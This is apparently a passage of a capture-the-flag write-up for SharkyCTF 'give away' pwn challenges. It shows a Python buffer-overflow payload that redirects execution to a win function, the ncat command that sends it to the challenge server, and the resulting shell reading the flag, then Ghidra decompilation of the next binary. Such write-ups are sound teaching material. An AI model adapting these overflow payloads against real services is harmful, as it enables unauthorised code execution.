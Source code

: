 
Enter the win_func address into the buffer after testing overflows (test with `"A" * <big numer> + "B"*8`  because addresses are 64 bit (8 bytes). Remember it is small endian so we swap it around (a7064000 00000000):

python exploit `0_print.py`:
```py
print("A"*40 + "\xa7\x06\x40\x00" + "\x00"*4)
```

We need to keep the pipe open when we pipe to the ncat session (cos its a shell!)
```
cat <(./0_print.py) - | ncat -v sharkyctf.xyz 20333
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Connected to 149.202.221.103:20333.
id
uid=1000(pwnuser) gid=1001(pwnuser) groups=1001(pwnuser),1000(ctf)
ls
0_give_away
flag.txt
start.sh
cat flag.txt
shkCTF{#Fr33_fL4g!!_<3}


```


## give away 1

So this is a 32 bit executable:
```
$ file give_away_1
give_away_1: ELF 32-bit LSB shared object, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=2b72e93281e97df94bf8362d5cf5a29f55accb8a, not stripped
```


A libc is also provied:
```
libc-2.27.so: ELF 32-bit LSB shared object, Intel 80386, version 1 (GNU/Linux), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=0e188ec5f09c187a7a92784d4b97aa251b15a93c, for GNU/Linux 3.2.0, stripped
```

So after some testing (just putting in lots of "A"s + "BBBB") (4 "B"s because addresses are 32 bit)

again, decompiling with ghidra:
```c

void vuln(void)

{
  int iVar1;
  undefined local_24 [28];
  
  iVar1 = __x86_get_pc_thunk_ax();
  FUN_000104c8(local_24,0x32,**(undefined4 **)(iVar1 + 0x191f));
  return;
}


// WARNING: Function: __x86.get_pc_thunk.bx replaced with injection: get_pc_thunk_bx

undefined4 main(void)

{
  init_buffering(&stack0x00000004);
```